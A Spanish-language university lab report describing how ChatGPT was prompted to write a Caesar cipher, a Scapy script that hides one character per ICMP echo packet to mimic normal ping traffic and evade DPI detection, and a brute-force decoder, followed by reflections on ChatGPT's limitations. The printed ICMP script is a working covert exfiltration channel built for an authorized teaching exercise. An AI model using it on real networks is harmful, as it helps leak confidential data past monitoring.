\documentclass[letter,12pt]{article}
\usepackage[paperheight=27.94cm,paperwidth=21.59cm,bindingoffset=0in,left=3cm,right=2.0cm, top=3.5cm,bottom=2.5cm, headheight=200pt, headsep=1.0\baselineskip]{geometry}
\usepackage{graphicx,lastpage}
\usepackage{upgreek}
\usepackage{censor}
\usepackage[spanish,es-tabla]{babel}
\usepackage{pdfpages}
\usepackage{tabularx}
\usepackage{graphicx}
\usepackage{adjustbox}
\usepackage{xcolor}
\usepackage{colortbl}
\usepackage{rotating}
\usepackage{multirow}
\usepackage[utf8]{inputenc}
\usepackage{float}
\renewcommand{\tablename}{Tabla}
\usepackage{fancyhdr}
\pagestyle{fancy}

\usepackage{hyperref}
\usepackage{listing}
\usepackage{lstautogobble}

\newenvironment{itquote}
  {\begin{quote}\itshape}
  {\end{quote}\ignorespacesafterend}

\definecolor{commentcolor}{RGB}{50,205,50}
\definecolor{keywordcolor}{RGB}{234,27,153}
\definecolor{stringcolor}{RGB}{186,85,211}
\newcommand{\PythonCode}{
    \lstset{
        language=Python,
        basicstyle=\ttfamily\small,
        backgroundcolor=\color{lightgray!30},
        commentstyle=\color{commentcolor},%
        keywordstyle=\color{keywordcolor}\bfseries,
        stringstyle=\color{stringcolor},
        morecomment=[s][\color{blue}]{/**}{*/},
        extendedchars=true,
        showspaces=false,
        showstringspaces=false,
        numbers=left,
        breaklines=true,
        breakautoindent=true,
        autogobble=true,
        captionpos=b,
        xleftmargin=2em,
        tabsize=2,
        frame=lines,
        % listings no tiene definido utf-8 por defecto
        % definimos cada carácter especial
        literate=
          {á}{{\'a}}1
          {é}{{\'e}}1
          {í}{{\'\i}}1
          {ó}{{\'o}}1
          {ú}{{\'u}}1
          {ñ}{{\~n}}1
          {¡}{{!`}}1
          {¿}{{?`}}1
      }
}

%
\begin{document}
%
   \title{\Huge{Informe Laboratorio 1}}
   \author{\textbf{Sección 1} \\  \\Alan Toro \\ e-mail: alan.toro@mail.udp.cl}
   \date{Agosto de 2023}
   \maketitle
   \tableofcontents
  \newpage
  

\section{Descripción}

\begin{enumerate}
    \item  Usted empieza a trabajar en una empresa tecnológica que se jacta de
      poseer sistemas que permiten identificar filtraciones de información a
      través de Deep Packet Inspection (DPI).  A usted le han encomendado
      auditar si efectivamente estos sistemas son capaces de detectar las
      filtraciones a través de tráfico de red. Debido a que el programa ping es
      ampliamente utilizado desde dentro y hacia fuera de la empresa, su tarea
      será crear un software que permita replicar tráfico generado por el
      programa ping con su configuración por defecto, pero con fragmentos de
      información confidencial. Recuerde que al comparar tráfico real con el
      generado no debe gatillar alarmas.  De todas formas, deberá hacer una
      prueba de concepto, en la cual se demuestre que al conocer el algoritmo,
      será fácil determinar el mensaje en claro.  Para los pasos 1,2,3 indicar
      el texto entregado a ChatGPT y validar si el código resultante cumple con
      lo requerido.
\end{enumerate}

\section{Actividades}
\subsection{Algoritmo de cifrado}

\begin{enumerate}
\item Generar un programa, en python3 utilizando chatGPT, que permita cifrar
texto utilizando el algoritmo Cesar. Como parámetros de su programa deberá
ingresar el string a cifrar y luego el corrimiento.
\begin{figure}[H]
        \centering
        
\includegraphics[width=15cm]{actividades/A1.png}
        \label{fig:a1}
\end{figure}
\end{enumerate}

\subsection{Modo stealth}

\begin{enumerate}
    \item Generar un programa, en python3 utilizando ChatGPT, que permita enviar
los caracteres del string (el del paso 1) en varios paquetes ICMP request (un
caracter por paquete en el campo data de ICMP) para de esta forma no gatillar
sospechas sobre la filtración de datos.  Deberá mostrar los campos de un ping
real previo y posterior al suyo y demostrar que su tráfico consideró todos los
aspectos para pasar desapercibido.
    \begin{figure}[H]
        \centering
        
\includegraphics[width=15cm]{actividades/A2.1.png}
        \label{fig:a2-1}
    \end{figure}
    El último carácter del mensaje se transmite como una b.
    \begin{figure}[H]
            \centering
            
\includegraphics[width=15cm]{actividades/A2.2.png}
            \label{fig:a2-2}
        \end{figure}
\end{enumerate}

\subsection{MitM}
\begin{enumerate}
    \item Generar un programa, en python3 utilizando ChatGPT, que permita
obtener el mensaje transmitido en el paso2. Como no se sabe cual es el
corrimiento utilizado, genere todas las combinaciones posibles e imprímalas,
indicando en verde la opción más probable de ser el mensaje en claro.
    \begin{figure}[H]
        \centering
        
\includegraphics[width=12cm]{actividades/A3.png}
        \label{fig:a3}
    \end{figure}
    Finalmente, deberá indicar 4 issues que haya tenido al lidiar con ChatGPT,
netamente para reflejar cuál fue su experiencia al trabajar con esta tecnología.
\end{enumerate}

\section{Desarrollo de Actividades}
\subsection{Actividad 1: Cifrado César}
Como el cifrado César es lo suficientemente común y simple, se realiza un prompt
directo y simple especificando el contexto (se espera que sea un rol capaz de
programar como un software engineer y que lo realice en Python3), además del
formato de la entrada y la salida. El prompt que genera el código a utilizar:

\begin{itquote}
  ``As a software engineer that works on criptography. Write a python program that makes caesar encriptation and receive the text and the shift as a CLI arg. The output should be only the encrypted text.''
\end{itquote}

\noindent
Esto genera el siguiente código:

    \begin{listing}
        \PythonCode{}
        \begin{lstlisting}[caption=Código del cifrado César generado por ChatGPT]
import argparse

def caesar_encrypt(text, shift):
    encrypted_text = ""
    for char in text:
        if char.isalpha():
            is_upper = char.isupper()
            char = char.lower()
            encrypted_char = chr(((ord(char) - ord('a') + shift) % 26) + ord('a'))
            if is_upper:
                encrypted_char = encrypted_char.upper()
            encrypted_text += encrypted_char
        else:
            encrypted_text += char
    return encrypted_text

def main():
    parser = argparse.ArgumentParser(description='Caesar Encryption')
    parser.add_argument('text', type=str, help='The text to be encrypted')
    parser.add_argument('shift', type=int, help='The shift value for encryption')

    args = parser.parse_args()
    encrypted_text = caesar_encrypt(args.text, args.shift)
    print(encrypted_text)

if __name__ == "__main__":
    main()
      \end{lstlisting}
    \end{listing}

    La conversación puede ser accedida en el recurso ``Conversación 1: Cifrado César'' en la sección ``Referencias'' de este documento.
    \noindent
    Para finalizar esta actividad, se comprueba que el cifrado sea correcto utilizando la frase del enunciado \textit{``criptografia y seguridad en redes''} al igual que el enunciado inicial. Lo que se cumple.

\begin{figure}[H]
    \centering
    
\includegraphics[width=15cm]{images/01-caesar-running.png}
\end{figure}

\subsection{Actividad 2: Modo stealth}
La construcción de este prompt es más específica. Aunque los valores pueden ser inferidos desde el RFC y, por lo tanto, capaz de ser reconstruidos a algo que haga sentido por ChatGPT la opción tomada en la construcción de este prompt fue especificar paso por paso lo que se espera para construir el paquete. En la sección ``Conclusiones y comentarios'' se habla de manera general los principales problemas encontrados.

El principal problema encontrado fue que cada cambio en la especificación cambió también de manera inesperada otra especificación a primera vista no relacionada. Por ejemplo, cambiar un fill de 5 ceros a 4 ceros podría hacer que el identificador sea generado para cada paquete y no un identificador único para toda la ráfaga de pings. Esto también ocurre durante la conversación, al intentar corregir problemas puntuales puede llegar a cambiar completamente el código. Es por esto que cada prompt se realizó en una nueva conversación, en un intento de mantener un orden e intentar un único prompt que genere de inmediato el código. Es así como se llega al prompt:

\begin{itquote}
  ``As a software engineer specialized in cryptography. Write a program, using Python3 and Scapy that receive an string as a CLI arg and send exactly N packets where N is the lenght of the string as ICMP Requests. The ICMP request should have:

- A sequence between 1 to N in the Sequence Number field for each packet.

- A random generated identifier as a hexadecimal value common to the ping storm.

- A data field is constructed exactly as follows in the same order:

 * A 8 bytes timestamp where the first 4 bytes are a unix epoch (32 bits) and the next 4 bytes are zeros filling. This requires importing the time library.

 * The next two bytes are random values.

 * The next one byte is the character we're sending.

 * Fill with five bytes with zero.

 * The following bytes are a sequence from 0x10 to 0x37 as hexadecimal values.

The destination for this request is the IP 8.8.8.8.''
\end{itquote}

Este prompt es casi correcto, aunque a primera vista se puede notar que rellena con 4 bytes cuando se le piden 5 bytes en el payload del campo data. Se corrige con un prompt puntual a este problema:

\begin{itquote}
  ``In the data field you forgot a zero, I said five bytes and you write four bytes. Fix only that part of the code.''
\end{itquote}

Finalmente, el código generado es:

    \begin{listing}
        \PythonCode{}
        \begin{lstlisting}[caption=Código generador de paquetes ICMP generado por ChatGPT]
import sys
import time
import random
from scapy.all import *

def generate_icmp_request(seq, identifier, char):
    timestamp = int(time.time()).to_bytes(4, byteorder='big') + b'\x00\x00\x00\x00'
    random_bytes = bytes([random.randint(0, 255) for _ in range(2)])
    data_field = timestamp + random_bytes + char.encode() + b'\x00\x00\x00\x00\x00' + bytes([i for i in range(0x10, 0x38)])
    icmp_packet = IP(dst='8.8.8.8') / ICMP(id=identifier, seq=seq) / data_field
    return icmp_packet

def main():
    if len(sys.argv) != 2:
        print("Usage: python icmp_storm.py <string>")
        sys.exit(1)

    input_string = sys.argv[1]
    identifier = random.randint(1, 65535)

    for seq, char in enumerate(input_string, start=1):
        icmp_packet = generate_icmp_request(seq, identifier, char)
        send(icmp_packet, verbose=False)
        time.sleep(1)  # Delay between sending packets (you can adjust this)

if __name__ == "__main__":
    main()
        \end{lstlisting}
    \end{listing}

    La conversación puede ser consultada en el link ``Conversación 2: Modo Stealth'' en la sección ``Referencias'' de este documento. Además, se adjuntan dos capturas, la primera con el mensaje ``hola'' (llamado hola-msg.pcapng) para ser fácilmente reconocible el mensaje a inspección simple y la segunda captura con el mensaje ``criptografia y seguridad en redes'' (llamado encrypted-msg.pcapng) con un corrimiento de 9 generado en la actividad 1. Ambas capturas se encuentran en el repositorio adjunto en ``Referencias''. Un paquete de la primera captura se presenta en la siguiente imagen:

    \begin{figure}[H]
        \centering
        
\includegraphics[width=16cm]{images/02-hola-msg-inside-icmp.png}
    \end{figure}

\subsection{Actividad 3: MitM}
Para este prompt se intentó ser directo, aunque se logró casi de inmediato que reconociera el mensaje buscado en darle un formato a la salida siempre rompía el código completo. Esto es discutido en la sección ``Conclusiones y comentarios''. Un prompt que llega a encontrar el mensaje e imprimirlo en verde pero luego de imprimir todas las combinaciones es:

\begin{itquote}
  ``As a cryptoanalyst and software engineer. Write a program, using Python and
Scapy, that receive a pcapng archive as a CLI arg. Take only the ICMP packets
with ICMP Type 8 and then extract the 11 byte. Repeat this for every packet and
build a string. This string is encrypted, in order to decrypt apply to this
string a caesar decrypt with shifts from 1 to 26 and print every combination
generated and print in green the most probable message in spanish using the
frequency of the letters.''
\end{itquote}

Así es la ejecución con la frase encriptada ``criptografia y seguridad en redes'' con un \textit{shift} de 9.

    \begin{figure}[H]
        \centering
        
\includegraphics[width=16cm]{images/03-decrypted.png}
    \end{figure}

El código generado es lo razonablemente largo para no incluirlo en este documento y se encuentra disponible en el repositorio de Github en la sección de ``Referencias'' en la ruta ``códigos/decrypt.py''. De la misma manera que las actividades anteriores, se encuentra el link a la conversación en la sección de ``Referencias''.

\section*{Conclusiones y comentarios}
Primero algunos comentarios y para finalizar la conclusión. Primeramente sobre ChatGPT, herramienta principal en la ejecución de este trabajo, cabe destacar 5 importantes puntos que complican trabajar con esta herramienta:

\begin{enumerate}
  \item \textbf{Demasiado verboso}: En una opinión personal, ChatGPT en un intento de hacer sentido y entregar un mensaje intenta ser muy verboso, innecesariamente verboso. Esto hace que casi siempre ignore gran parte del texto de la respuesta porque comienza a ser irrelevante, genera que la respuesta sea lenta y además tediosa de leer y entender.
  \item \textbf{Falta de conocimiento específico}: Al menos en estas actividades, el prompt tiene que ser específico casi al punto de escribir pseudocódigo porque ChatGPT deja muchos espacios sin definir. En particular en la creación de los paquetes ICMP, a menos que se le explicite campo por campo lo que se espera genera paquetes facilmente reconocibles como falsos.
  \item \textbf{No entrega las referencias que usó}: Es claro que prompts como el de generar un cifrado César es más directo y simple que el de generar el paquete ICMP, una intuición podría decirnos que como es un problema más común y típico para gente aprendiendo a programar, es más fácil encontrarlo ya resuelto en algún lugar de internet. Esto es una mera suposición porque ChatGPT no entrega sus fuentes y perfectamente esto pudo ser plagio. Además, el no poder acceder a las fuentes primeras no permite acceder a otros recursos similares que podrían ser de utilidad como podría ser la explicación del código, códigos similares o artículos, libros o tutoriales del mismo autor.
  \item \textbf{Irreproductibilidad}: Un mismo prompt ejecutado 2 veces raramente genera una respuesta parecida, creo nunca haber visto una igual. Esto hace que el contexto de la conversación empiece a ser un poco irrelevante para de manera intencional guiar la conversación. Esto también genera que prompts que están muy cercanos a la respuesta no se puedan continuar en otra conversación, porque nada asegura partir desde un punto común o continuable.
  \item \textbf{Demasiada sensibilidad al realizar cambios}: El principal problema encontrado fue la sensibilidad al prompt, muchas veces encontré diferencias totalmente distintas a prompts que se le realizaron cambios pequeños y superficiales como por ejemplo cambiar ``five'' por ``5'' y visceversa. Cambios puntuales a partes específicas de una respuesta anterior cambian todo el código y el contexto en el que se está trabajando. Esto hizo que encaminar a la solución a ChatGPT sea más difícil que arreglar el problema. Un caso puntual también es el caso del output, que cambios en la presentación de los resultados del código afecten a todo el código muestra la sensibilidad que tiene ChatGPT.
\end{enumerate}

A modo de conclusión, se puede analizar y entender herramientas como ChatGPT como muy rápidas y al alcance para abarcar contextos o rellenar textos con algo que genera cierto sentido. Pero, esto también viene con algunos alcances, principalmente la inestabilidad para trabajar con los comentarios anteriores, es decir, demasiada sensibilidad al cambio, nulo acceso a las fuentes originales, respuestas innecesariamente verbosas y la incapacidad de reproducir 2 veces un mismo resultado. Como complemento a una actividad o trabajo puede participar activamente, pero difícilmente completar la actividad por si misma.

Con respecto a las actividades, se puede notar una técnica bastante simple y efectiva para traspasar información a través de un paquete ICMP, que podría asumirse por inofensivo, pero es capaz de esconder un mensaje difícilmente reconocible si no se conoce información adicional como el sistema operativo, la versión de la herramienta que genera el tráfico o el byte o lugar específico del payload que trae el mensaje.

\section{Referencias}
\begin{enumerate}
\renewcommand*\labelenumi{[\theenumi]}
  \item Conversación 1: \href{https://chat.openai.com/share/67db6704-737c-4e4b-b40f-d29987e349b3}{Cifrado César}
  \item Conversación 2: \href{https://chat.openai.com/share/48196809-29e2-4f22-9135-8f3fe4940514}{Modo Stealth}
  \item Conversación 3: \href{https://chat.openai.com/share/2c09bc6e-27e3-4291-8112-c15819ce67e5}{MitM}
  \item Github Repo:
\end{enumerate}

\end{document}
